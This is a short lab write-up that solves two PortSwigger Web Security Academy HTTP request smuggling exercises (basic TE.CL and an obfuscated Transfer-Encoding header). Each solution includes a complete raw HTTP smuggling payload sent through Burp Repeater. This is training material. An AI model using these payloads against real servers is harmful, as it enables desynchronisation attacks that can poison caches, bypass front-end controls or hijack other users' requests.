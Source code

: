 
## HTTP request smuggling, basic TE.CL vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl


### Quick Solution
As said in the title this website is vulnerable to a simple TE.CL vulnerability. Payload in the next paragraph.


### Solution
In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
The second response should say: ``Unrecognized method GPOST``.

## HTTP request smuggling, obfuscating the TE header
Reference: https://ac971f131f8e9498c0a86f1d00cd0030.web-security-academy.net/


### Quick Solution
In this case the TE header had to be obfuscated. Payload in the next paragraph.


### Solution
In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```